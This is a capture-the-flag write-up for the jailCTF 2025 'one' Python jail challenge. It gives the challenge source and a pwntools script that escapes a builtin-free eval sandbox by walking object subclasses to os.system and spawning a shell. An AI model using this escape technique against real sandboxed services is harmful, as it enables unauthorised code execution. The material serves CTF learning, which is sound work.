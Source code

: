 # jailCTF 2025 one

```python
#!/usr/local/bin/python3
assert(c:=input("one please > ")).count(".")!=1,eval(c,{'__builtins__':{}})
```

Requirements:

1. Only one `.`: use lambda function to reuse `value.__getattribute__` call
2. No builtins: use `().__setattr__.__objclass__.__subclasses__()[os_index].__init__.__globals__['system']('sh')` to get shell

Inspired by @xtea418 on Discord:

```python
[g:=(lambda x,*y: x.__getattribute__(*y)), a:=g([], "__setattr__"),b:=g(a, "__objclass__"), c:=g(b, b, "__subclasses__")()[-1], d:=g(c, c, "__init__"),e:=g(d, "__builtins__"),f:=e["__import__"]("os"),g(f,"system")("sh")]
```

Attack script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index


p = process(["python3", "main.py"])
p.recvuntil(b"> ")
p.sendline(
    (
        "[G:=(lambda x,*y: x.__getattribute__(*y)),"
        # ().__setattr__
        + "A:=G((),'__setattr__'),"
        # ().__setattr__.__objclass__ is object
        + "B:=G(A,'__objclass__'),"
        # ().__setattr__.__objclass__.__subclasses__()[os_index]
        + f"C:=G(B,B,'__subclasses__')()[{os_index}],"
        # ().__setattr__.__objclass__.__subclasses__()[os_index].__init__
        + "D:=G(C,C,'__init__'),"
        # ().__setattr__.__objclass__.__subclasses__()[os_index].__init__.__globals__['system']('sh')
        + "G(D,'__globals__')['system']('sh')]"
    ).encode()
)
p.interactive()
```
